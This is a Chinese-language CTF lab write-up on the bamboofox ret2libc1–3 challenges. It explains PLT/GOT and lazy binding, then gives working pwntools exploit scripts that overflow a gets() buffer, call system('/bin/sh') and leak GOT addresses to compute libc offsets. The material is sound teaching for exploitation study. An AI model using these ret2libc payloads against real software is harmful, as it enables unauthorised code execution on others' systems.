[bamboofox] ret2libc1,2,3 [CTFwiki]
Table of Contents
ret2libc
基本原理
ret2libc即控制函数的执行libc中的函数，是本ELF文件没有的函数，通常是返回至某个函数的PLT处或者函数的具体位置 （即函数对应的 got 表项的内容）。一般情况下，我们会选择执行system("/bin/sh")，故而此时我们需要知道system函数的地址
看名字就知道又是一个栈溢出的利用，栈溢出就不重复讲解了，讲讲有关动态链接库的内容
动态链接库
动态链接库是一类不可执行的二进制文件，在Windows下其后缀名为.dll，在Linux下其后缀名为.so。动态链接库中主要包括了一些函数的具体实现过程以供其他程序直接调用，比如libc-2.31.so中就包含了printf、scanf等函数的具体实现，因此我们在编写自己的C语言程序时可以直接调用该函数而无需自行实现
那么动态链接库和静态链接库有什么区别呢，我们来看一个小例子
#include <stdio.h>
int main()
{
printf("Hello world!");
}
我们用gcc --static -o staticELF test.c和gcc -o dynamicELF test.c来对代码分别通过静态链接方式和动态链接方式进行编译得到两个ELF文件
显然两者的功能完全相同，区别就在于ELF文件的大小了，两者的大小区别不是一般的大
-rwxrwxrwx 1 asuka asuka 15952 Oct 21 00:31 dynamicELF*
-rwxrwxrwx 1 asuka asuka 900264 Oct 21 00:31 staticELF*
这是因为在静态链接方式编译的程序把要用到的库函数和对应的子函数等都包含在了程序的text段中，自给自足，而动态链接方式编译的程序本身不包含库函数，而借助系统的动态链接库完成运行
静态链接和动态链接各自的优劣之处也就看出来了
- 静态链接编译的文件可移植性好，但体积大、相对臃肿
- 动态链接编译的文件体积小、运用灵活，但对系统环境依赖性强
说这些可能比较枯燥，举个很真实的例子：你一定曾经在运行Windows平台的程序的时候遇到过“DLL缺失”的奇怪问题，而网上给出的解决方案常常是把某个DLL文件放进系统文件夹里。这里DLL文件就是Windows下的动态链接库了。没有动态链接，我们下载的应用、游戏可能会比现在大几十倍不止，这可不是绝大多数用户可以承受得起的代价。可以说，动态链接库是现代操作系统的一大创举
PLT和GOT
现在我们摆脱了必须自己实现库函数的困境，但还有一个问题横亘在我们面前：我们要如何调用系统提供的库函数呢？这就不得不提ELF文件的PLT和GOT了
PLT（Procedure Linkage Table，程序链接表）、GOT（Global Offset Table，全局偏移表）是程序在链接库内定位所需函数用到的两张表。PLT被用来存储外部函数的入口点，程序通过PLT寻找外部函数；PLT存储在代码段（Code Segment）内，在运行之前就被确定不再修改；GOT被存储在数据段（Data Segment）内，与PLT不同的是，GOT表可以在程序运行的过程中被修改，PLT存储的入口点就是GOT中对应条目的函数的确切地址


等等，我们好像发现了一个不合理的地方，外部函数的内存地址存储在 GOT 而非 PLT 表内，PLT 存储的入口点又指向 GOT 的对应条目，那么程序为什么选择 PLT 而非 GOT 作为调用的入口点呢？在程序启动时确定所有外部函数的内存地址并写入 GOT 表，之后只使用 GOT 表不是更方便吗？
这样的设计是为了程序的运行效率。GOT 表的初始值都指向 PLT 表对应条目中的某个片段，这个片段的作用是调用一个函数地址解析函数。当程序需要调用某个外部函数时，首先到 PLT 表内寻找对应的入口点，跳转到 GOT 表中。如果这是第一次调用这个函数，程序会通过 GOT 表再次跳转回 PLT 表，运行地址解析程序来确定函数的确切地址，并用其覆盖掉 GOT 表的初始值，之后再执行函数调用。当再次调用这个函数时，程序仍然首先通过 PLT 表跳转到 GOT 表，此时 GOT 表已经存有获取函数的内存地址，所以会直接跳转到函数所在地址执行函数。整个过程如下面两张图所示（左为第一次调用，右为再次调用）


值得注意的是，在原程序调用PLT内的跳转函数时使用的是call指令，而PLT却是jmp到GOT的，这意味着其后还跟随着push返回地址和函数参数
动态链接工作过程


这两张图将过程解释得非常清晰了，故不再画蛇添足（绝对不是因为懒）
题目
ret2libc1
首先还是checksec一下，发现是个32位ELF文件，但是开了NX保护
- NX保护（No EXecute，栈禁止执行）：简单来说就是“可写的不可执行，可执行的不可写”
拖进32位IDA反编译一下
int __cdecl main(int argc, const char **argv, const char **envp)
{
char s[100]; // [esp+1Ch] [ebp-64h] BYREF
setvbuf(stdout, 0, 2, 0);
setvbuf(_bss_start, 0, 1, 0);
puts("RET2LIBC >_<");
gets(s);
return 0;
}
发现危险函数gets函数，可以栈溢出
还发现一个secure函数，里面有调用system函数（在原程序里实际上是call 0x8048460 <system@plt>，即调用PLT里的跳转函数），但是调用参数并不合法，无法直接跳转利用
void secure()
{
unsigned int v0; // eax
int input; // [esp+18h] [ebp-10h] BYREF
int secretcode; // [esp+1Ch] [ebp-Ch]
v0 = time(0);
srand(v0);
secretcode = rand();
__isoc99_scanf("%d", &input);
if ( input == secretcode )
system("shell!?");
}
其中system函数的PLT跳转函数_system地址为0x08048460（在IDA的侧边栏里的Segment找.plt）
再来搜索下字符串，发现有/bin/sh（0x08048720）
.rodata:08048720 aBinSh db '/bin/sh',0 ; DATA XREF: .data:shell↓o
最后来算一下偏移，介绍一个很方便的方法：cyclic
先来随便生成一个随机的长字符串cyclic 128，然后在gdb内运行程序，将生成的字符串作为输入，返回报错
Invalid address 0x62616164
可知溢出点在0x62616164，再使用命令cyclic -l 0x62616164，得到偏移长度112，非常方便快捷
现在我们来捋一捋思路
我们现在手头上有：合法调用的get函数、跳转函数_system、字符串/bin/sh，但是栈不可执行、secure函数传入system函数的参数不对
我们无法直接ret2text，但是程序本身有system函数的动态链接，那么我们直接调用程序PLT里的_system函数不就好了
EXP
from pwn import *
io = process('./ret2libc1')
binsh = 0x08048720
systemplt = 0x08048460
payload = b'a'*112 + p32(systemplt) + b'b'*4 + p32(binsh)
io.sendline(payload)
io.interactive()
为什么在溢出+地址之后还要填上‘bbbb’呢？原因就在于之前所说的PLT跳转函数使用的是jmp指令，故程序栈会给真正的system函数（GOT指向的那个）栈压入一个返回地址和函数参数
综上，我们构造的payload结构如下

勘误：这里应该调用的是system@plt，也就是_system，地址应为0x08048460
ret2libc2
题目基本和上题一样，不过这次我们搜索字符串时并没有找到/bin/sh
那是不是就无解了呢，不如来换个思路，没有条件就创造条件
还记得.bss段吗，它在很多情况下可以被读取、写入、执行。我们不如尝试将后台代码写入.bss段中
- BSS段通常是指用来存放程序中未初始化的或者初始化为0的全局变量和静态变量的一块内存区域。特点是可读写的，在程序执行之前BSS段会自动清0。可执行程序包括BSS段、数据段、代码段
- BSS（Block Started by Symbol）通常是指用来存放程序中未初始化的全局变量和静态变量的一块内存区域。特点是：可读写的，在程序执行之前BSS段会自动清0。所以，未初始的全局变量在程序执行之前已经成0了
- 数据段包括初始化的数据和未初始化的数据（BSS）两部分 。BSS段存放的是未初始化的全局变量和静态变量
- UNIX下可使用size命令查看可执行文件的段大小信息
IDA里也恰好找到一个长为100的空闲内存buf2（0x0804A080）
.bss:0804A080 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2 db 64h dup(?)
.bss:0804A080 _bss ends
.bss:0804A080
如何写入呢，我们手头上正好有个get函数，正好可以利用起来
简单分析一下：栈满–>返回地址覆盖为get函数地址–>get函数完成写入后返回_system函数–>system函数调用写入的字符串–>getshell
这里程序栈的构造就有几分考究了，先从大体上入手，构造get函数的程序栈
然后来考虑_system函数

最终得到payload的构造如下


当然，我们不一定非要输入/bin/sh，我们也可以直接输入cat flag一步到位，不过这也只是一点点做题技巧罢了，没有什么实质性的不同
这题大佬们说还可以用堆栈平衡来做，但由于我水平有限，这里不做介绍
EXP
from pwn import *
io = process('./ret2libc2')
buf2 = 0x0804A080
systemplt = 0x08048490
getsplt = 0x08048460
payload = b'a'*112 + p32(getsplt) + p32(systemplt) + p32(buf2) + p32(buf2)
io.sendline(payload) #输入/bin/sh
io.interactive()
ret2libc3
（听说这才是真正意义上的ret2libc）
第三题在第二题的基础上，将system函数的地址删去了，我们该如何得到system函数的地址呢
libc延迟绑定
这里介绍一下libc的延迟绑定
动态链接的程序是在运行时需要对全局和静态数据访问进行GOT定位，然后间接寻址。同样，对于模块间的调用也需要GOT定位，再间接跳转。这么做势必会影响到程序的运行速度。但程序在运行时很大一部分函数都可能用不到，于是ELF采用了当函数第一次使用时才进行绑定的思想，也就是我们所说的延迟绑定。ELF实现延迟绑定是通过PLT，原先GOT中存放着全局变量和函数调用，现在把它拆成两个部分.got和.got.plt，用 .got存放着全局变量引用，用.got.plt存放着函数引用
简而言之，一个函数被调用过以后，got表里保存了它在内存中的地址，可以通过泄露got表内存来泄露函数地址，就可以根据其与libc中该函数的偏移计算其他函数在内存空间中的地址。因为libc中任意两个函数之间的偏移是固定的
那么思路就逐渐明了了
首先我们先跑一次程序，完成动态绑定，第一次溢出获取已知函数在GOT表的地址，并且返回到程序入口点再次运行

然后根据获得的地址查询libc版本并计算偏移，得到我们需要的system和/bin/sh真实地址，然后第二次溢出getshell
- 有个方便的libc查询模块
- 手动查询也可以用现有的数据库

EXP
旧EXP（Ubuntu18以下）
from pwn import *
from LibcSearcher import *
elf = ELF('./ret2libc3')
io = process('./ret2libc3')
puts_plt = elf.plt['puts'] #获取puts的plt地址
puts_got = elf.got['puts'] #获取puts的got地址
start_addr = elf.symbols['_start'] #获取程序开始点start地址
payload1 = b'a'*112+p32(puts_plt)+p32(start_addr)+p32(puts_got) #溢出+puts@plt函数+puts后返回start+puts输出got地址
io.sendlineafter("!?",payload1) #第一次溢出
puts_addr = u32(io.recv(4)) #获取输出的got地址并解包取后12位
libc = LibcSearcher('puts',puts_addr) #查询libc版本
libcbase = puts_addr-libc.dump("puts") #计算偏移
system_addr = libcbase+libc.dump("system") #计算system真实地址
binsh_addr = libcbase+libc.dump("str_bin_sh") #计算字符串'/bin/sh'真实地址
payload2 = b'a'*112+p32(system_addr)+b'a'*4+p32(binsh_addr)
io.sendlineafter("!?",payload2) #第二次溢出
io.interactive()
不知道为什么.plt['puts']会报错KeyError: u'puts'跑不动，找半天也没有同类错误
原因找到了，由于wiki的历史较久（当时乌云甚至还没倒），pwntools依赖的pwnlib已经不再支持python2，换用python3不会有同类报错
一直迁就网上年代较久远的exp使用python2也不是个长久的办法，以后还是得逐渐将阵地转移到python3
还有另一个问题是LibcSearcher内置的Libc数据库也已经年久失修找不到对应Libc版本了
新EXP（Ubuntu18及以上）
from pwn import *
from LibcSearcher import *
elf = ELF('./ret2libc3')
io = process('./ret2libc3')
puts_plt = elf.plt['puts'] #获取puts的plt地址
puts_got = elf.got['puts'] #获取puts的got地址
start_addr = elf.symbols['_start'] #获取程序开始点start地址
payload1 = b'a'*112+p32(puts_plt)+p32(start_addr)+p32(puts_got) #溢出+puts@plt函数+puts后返回start+puts输出got地址
io.sendlineafter("!?",payload1) #第一次溢出
puts_addr = u32(io.recv(4)) #获取输出的got地址并解包取后12位
libc = LibcSearcher('puts',puts_addr) #查询libc版本：libc6_2.35-0ubuntu1_i386
libcbase = puts_addr-libc.dump("puts") #计算偏移
system_addr = libcbase+libc.dump("system") #计算system真实地址
binsh_addr = libcbase+libc.dump("str_bin_sh") #计算字符串'/bin/sh'真实地址
retnaddr = 0x804841E #_init_proc函数的retn地址
payload2 = b'a'*112+p32(retnaddr)+p32(system_addr)+b'a'*4+p32(binsh_addr) #溢出+栈平衡+system+伪retn_addr+shellcode_addr
io.sendlineafter("!?",payload2) #第二次溢出
io.interactive()
和旧EXP不同的是在第二次溢出的时候先压入了一个地址用于栈平衡，这样就可以在本地打通了（Ubuntu22.04） 至于为什么是_init_proc函数我尚未找到具体的资料，有待深入
你折磨得我好苦啊栈平衡君（大悲）
PS1：发现其实使用__libc_csu_init函数也一样可以打通
retnaddr = 0x8048700 #__libc_csu_init函数的retn地址
gdb调试了一下，执行顺序大概是这样的：_init->__libc_csu_init->__libc_start_main_impl->main？
得去查查Linux的程序的执行机制
Libc-Database
有另一种略麻烦的解决办法，就是将Libc-Database部署到本地手动查询，但优点是可以不使用年久失修的LibcSearcher、不依赖网络、数据库更新更全 常用命令如下：
-
./get [libc_database_name...]：更新数据库、下载相关libc集
- 第一次使用Libc-Database需要手动下载
- 目前支持：
- ubuntu
- debian
- rpm
- centos
- arch
- alpine
- kali
- parrotsec
- launchpad
-
./find [function_name] [addr]：使用函数名+地址（可以多组）查找libc版本 -
./dump [libc_name] [function_name...]：获取对应libc里函数的地址 -
./download [libc_name]：下载指定libc -
./add [local_libc_path]：添加本地libc
from pwn import *
sh = process('./ret2libc3')
e = ELF('./ret2libc3')
puts_plt = e.plt['puts']
main_plt = e.symbols["_start"]
puts_got = e.got['puts']
libc_start_main_got = e.got['__libc_start_main']
payload = b'a'*112+p32(puts_plt)+p32(main_plt)+p32(puts_got)
sh.sendlineafter("Can you find it !?",payload)
print("get the related addr")
puts_addr = u32(sh.recv()[0:4])
# print("print puts_addr to find libc:"+hex(puts_addr)) # 260
print("print __libc_start_main to find libc:"+hex(libc_start_main_got)) # 024
libc_puts = 0x073260 # libc6-2.35-0ubuntu3.1_i386
libc_system = 0x048150
libc_binsh = 0x11bd0f5
libcbase = puts_addr - libc_puts
system_addr = libcbase + libc_system
binsh_addr = libcbase + libc_binsh
# payload = b'a'*112+p32(system_addr)+b'a'*4+p32(binsh_addr)
payload = b'a'*112+p32(retnaddr)+p32(system_addr)+b'a'*4+p32(binsh_addr) #溢出+栈平衡+system+伪retn_addr+shellcode_addr
sh.sendline(payload)
sh.interactive()
这个脚本需要跑至少两次，前面几次获取几个函数的地址以精确查询libc库的版本，最后一次改好地址直接getshell
查找出来的结果有时会比较多，而且x86和x64的都有，可以通过程序的指令集架构来缩小范围
比如x86程序选i386，x64程序则选x86_64或amd64（之前怎么没想到，被自己蠢晕.jpg）
但是不知道什么原因我并没有找到可以getshell的正确版本（可以看到我至少用两个函数试了三个libc版本），比较奇怪
整体思路明白就行，等哪天全部解决了再回来pwn一次 已解决，感动死了（悲）